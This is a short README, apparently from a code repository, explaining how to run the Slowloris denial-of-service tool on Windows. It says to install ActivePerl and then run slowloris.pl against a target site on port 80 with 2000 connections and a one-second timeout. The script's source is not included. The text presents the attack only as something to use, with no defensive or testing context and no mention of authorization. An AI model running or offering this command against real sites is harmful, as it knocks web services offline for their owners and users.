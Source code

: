 # SlowlorisAttack on Windows

Download and install active perl from the given link:
http://www.activestate.com/activeperl/downloads

Open cmd and hit the command:
slowloris.pl -dns (target site address) -port 80 -timeout 1 -num 2000
